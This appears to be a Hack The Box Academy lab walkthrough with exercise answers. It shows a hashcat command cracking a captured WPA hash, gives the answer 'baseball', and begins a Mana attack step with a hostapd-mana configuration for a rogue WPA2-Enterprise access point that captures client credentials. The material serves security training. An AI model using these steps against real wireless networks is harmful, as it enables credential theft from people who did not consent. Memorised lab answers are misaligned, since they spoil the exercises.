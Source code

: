 
Finally, students need to use Hashcat to crack the hash.

Code: shell

```shell
hashcat -a 0 -m 22000 hash.22000 wordlist.txt --force
```

```
┌─[us-academy-1]─[10.10.15.251]─[htb-ac-594497@htb-vtr17q4cjp]─[~]
└──╼ [★]$ hashcat -a 0 -m 22000 hash.22000 wordlist.txt --force

hashcat (v6.2.6) starting

<SNIP>

6e21f70ea3c780ce764ef675ae8b9001:a6351249c8ca:020000000500:StarLight-Hospital:{hidden}
```

Answer: `baseball`

# Karma & Mana Attacks

## Question 2

### "Perform the Mana attack as demonstrated in this section. What is the password obtained from the client probing for the network named HackTheBox?"

Using the previously established RDP session, students need perform a MANA attack against the client probing for the `HackTheBox` network. However, this time, students need to configure their rogue AP for WPA2 Enterprise.

Code: shell

```shell
cat << EOF > hostapd.conf 
# 802.11 Options
interface=wlan1
ssid=HackTheBox
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=/opt/hostapd-mana/hostapd.eap_user

# Certificates
ca_cert=/opt/hostapd-mana/ca.pem
server_cert=/opt/hostapd-mana/server.pem
private_key=/opt/hostapd-mana/server.key
private_key_passwd=whatever
dh_file=/opt/hostapd-mana/dh

# Mana Configuration
enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1
```